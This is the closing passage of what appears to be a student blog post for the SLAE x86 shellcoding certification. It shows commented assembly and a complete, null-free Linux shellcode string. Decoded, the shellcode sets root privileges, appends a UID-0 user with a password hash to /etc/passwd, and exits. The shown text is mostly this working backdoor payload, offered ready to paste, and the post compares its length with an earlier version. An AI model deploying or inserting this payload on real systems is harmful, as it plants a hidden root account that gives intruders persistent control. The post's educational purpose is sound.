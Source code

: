 ```x86asm
    push 0x303a7372         ; "0:sr"
    push 0x54426769         ; "TBgi"
    push 0x6f667764         ; "ofwd"
    push 0x797a413a         ; "yzA:"
    push 0x656d616e         ; "eman"
    push 0x72657375         ; "resu"
    mov ecx, esp
    
    ; must replace this as the opcode offsets have changed with my modifications
    ; Made 0x28 as payload has extra characters from pushing to stack
    ; mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
    mov dl, 0x25

    push byte +0x4      ;
    pop eax             ; write()
    

    int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);


    ; since I am writing 38 bytes, 0x26 should be in eax as the return value
    ; from write(). Thus, I can just set the least significant byte to 0x1 and save a
    ; byte of shellcode
    ; push byte +0x1      
    ; pop eax
    mov al, 0x1
    
    int 0x80            ; exit()
```

The new shellcode
```c
"\x29\xc9\x31\xdb\x6a\x46\x58\xcd\x80\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x89\xc3\x68\x68\x68\x2d\x2d\x68\x69\x6e\x2f\x73\x68\x2f\x3a\x2f\x62\x68\x3a\x30\x3a\x3a\x68\x72\x73\x3a\x30\x68\x69\x67\x42\x54\x68\x64\x77\x66\x6f\x68\x3a\x41\x7a\x79\x68\x6e\x61\x6d\x65\x68\x75\x73\x65\x72\x89\xe1\xb2\x25\x6a\x04\x58\xcd\x80\xb0\x01\xcd\x80"
```

## Summary

The old shellcode was 95 characters long (including nulls).

My new shellcode is 101 bytes long and has no null bytes.


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly


